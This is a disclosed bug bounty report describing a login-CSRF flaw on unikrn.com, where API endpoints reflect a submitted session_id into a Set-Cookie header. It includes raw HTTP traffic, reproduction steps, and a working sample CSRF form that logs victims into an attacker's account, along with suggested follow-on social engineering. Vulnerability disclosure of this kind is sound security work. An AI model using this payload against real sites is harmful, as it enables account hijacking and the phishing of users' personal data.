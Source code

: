 # CSRF log victim into the attacker account

## Report Details
- **Report ID**: 293016
- **URL**: https://hackerone.com/reports/293016
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-11-26T07:54:43.228Z
- **Disclosed**: 2018-04-10T02:20:45.193Z

## Reporter
- **Username**: tolo7010
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: unikrn

## Vulnerability Information
All the API endpoints (v1 & v2) reflect session_id to Set-Cookie response - which can lead victim to login attacker account, for example:

Request:
======
``` 
POST /apiv1/ HTTP/1.1
Host: unikrn.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://unikrn.com/games/lol/afreeca-freecs-v-griffin---best-of-3/31638
Content-Type: application/json
Application-Version: v3.9.1-1485-g57625f1
Content-Length: 49
Cookie: ...
Connection: close

{"session_id":"ue9cpp0t2mitjpm0s45epj78l3kpig6j"}
``` 

Response:
=======
``` 
HTTP/1.1 202 Accepted
Date: Sun, 26 Nov 2017 07:28:38 GMT
Content-Type: application/json
Content-Length: 148
Connection: close
Access-Control-Allow-Origin: *
Access-Control-Max-Age: 86400
Cache-Control: no-store, no-cache, must-revalidate
CI: M-production C-1 V-1.2.0
Content-Security-Policy: default-src 'none'; frame-ancestors 'none'
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Set-Cookie: CW=ue9cpp0t2mitjpm0s45epj78l3kpig6j; expires=Wed, 06-Dec-2017 07:28:37 GMT; Max-Age=864000; path=/; domain=unikrn.com; secure; HttpOnly
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
Vary: Origin
X-XSS-Protection: 1; mode=block
Server: cloudflare-nginx
CF-RAY: 3c3b21cc1fb03415-HKG

{"success": false, "error": true, "msg": "missing_parameter_apiv1", "msg_trans": "missing_parameter_apiv1", "code": 666, "flds": null, "data": null}
``` 

Steps to reproduce:
=============
``` 
1. The victim has logged out the site by himself or by (out of scope) logout-CSRF. 
2. Attacker log into his account and get his session id (CW=) to craft CSRF page.
3. Lead the victim to visit CSRF page.
``` 

Sample CSRF Page
============
``` 
<!doctype html>
<html>
<head>
</head> 
<body>
<form action="https://unikrn.com/apiv1/" method="POST">
<input type="hidden" name="session_id" id="session_id" value="cm8csktf7p485hmb7on32o5bm94nm71i"> <!-- attacker session_id -->
<input type="submit"">
</form>
</body>
</html>
``` 

Note this sample CSRF assumes the user has logged out from the site, and make sure you replace attacker session_id of your current logged in account to reproduce, then goto unikrn.com after visiting the CSRF-page. However a script can be created here to automated these tasks.

## Impact

Log any victim into the attacker account, the attacker can create a similar account profile as the victim - with some information missing, and then social-engineering (e.g. email) user to provide personal information or current password.

## Attachments
No attachments
